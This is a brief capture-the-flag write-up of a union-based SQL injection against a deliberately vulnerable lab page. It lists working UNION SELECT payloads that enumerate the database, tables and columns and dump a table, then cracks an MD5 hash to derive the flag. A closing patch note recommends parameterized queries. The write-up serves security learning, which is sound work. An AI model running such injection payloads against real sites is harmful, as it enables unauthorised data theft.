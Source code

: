 # Exploit
1. Visit the URL: `/index.php?page=searchimg`.
2. This is similar to the SQL injection exploit in `search_member_sql_inj_error_based`, but without error-based SQL feedback.
3. Reuse similar queries to extract information about the database name, table name, and column names. Use the following queries:

1 union all select 1,database() --> Member_images 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema=database() --> list_images 1 union all select 1,group_concat(column_name) from Information_schema.columns where table_name=0x6c6973745f696d61676573 --> id,url,title,comment 1 union all select 1,group_concat(comment,0x0a) from list_images --> If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46

4. Decrypt the MD5 hash, which gives: **albatroz**.
5. Compute the SHA-256 checksum for "albatroz":

```bash
echo -n albatroz | shasum -a 256
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
The resulting flag is: f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188.
Patch
Prepare SQL statements using parameterized queries.
Sanitize user inputs by filtering special characters to prevent malicious inputs. """